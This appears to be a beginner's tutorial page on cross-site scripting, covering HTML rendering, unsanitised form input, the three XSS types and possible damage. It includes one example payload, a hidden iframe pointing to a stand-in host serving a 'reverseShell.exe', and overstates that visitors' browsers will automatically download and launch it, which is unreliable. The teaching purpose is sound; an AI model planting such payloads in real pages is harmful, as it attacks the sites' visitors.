 # Cross Site Scripting (XSS)

##Video
-video-

## The Problem
Let's think for a moment: what are websites really made out of?

A website cannot be understood and displayed by a computer unless it is written in a very specific manner. You are probably familiar with **Hypertext Markup Language (HTML)** if you've spent some time on the internet. This is the classic markup language meant to make plain text files into things that can be displayed by a web server. **HTML** is responsible for most (but not all) web based things that you've ever seen in a web browser!

When you want to see memes of cats doing funny things on the internet, HTML is the language that translates a static page of text into images, headings, buttons, links, and more! 

And most of the time, this is totally fine. You, the **client**, browse to the IP address of the web server. The web server sees a visitor and says "I must render the text documents in my main directory so our visitor can see our website!" And the server takes the HTML file and makes it into something that looks good in a web browser. Science, baby!

## The Exploit
Most problems in cyber security can be boiled down to the fact that computers, for better or worse, do exactly what you tell them to do.

If the internet was just a bunch of pictures of static cat memes, I think we'd all be better off and nothing bad would ever happen. The problem here is that people love to make websites... well... **useful**. So maybe instead of cat memes, your company website has a form that take user input and produce some kind of output based on the user input.

Remember, **computers do exactly what you tell them to do**. So what if, instead of just filling out the form like a law-abiding citizen, you decide to put some HTML (or Javascript, or other type of website language) in the form instead?

Ladies and gentlemen, you have Cross Site Scripting: an exploit of **client-side HTML rendering**. The HTML code that you enter into the form is rendered by the website **as if it were part of the website in the first place**.

If a website accepts input from clients and  **does not validate and sanitize its input**, it may be vulnerable to Cross Site Scripting. Speaking simply, the website must be coded to accept input and **treat it as plain text, not HTML** to avoid this problem.

## The Types
There are three types of XSS:
- Reflected XSS: XSS that returns user input 
- Stored XSS: Think of this as XSS that is added to the actual code on the server. This means that anyone who visits a particular page with this kind of XSS will be exploited by it, and it will remain on the server until someone does something about it. Scary stuff.
- DOM Based XSS


## The Damage
XSS is not just a matter of popping up an alert on a website. An atacker can do serious damage if a webpage is vulnerable to XSS.

Consider the following example of an XSS payload:

`<iframe SRC="http://evil.website.evil/reverseShell.exe" height = "0" width = "0"></iframe>`

Here, the `iframe` HTML tag is used to make an embedded inline frame. This frame ends up looking like a tiny little square on the page when it is rendered in the browser. And as soon as a client visits a page that has been infected with an embedded iframe, their browser will try to access and browse to the iframe's source which, in this example, is `evil.website.evil/reverseShell.exe`. So everyone who visits the page while this XSS payload exists will download and launch a reverse shell program.

Yikes!



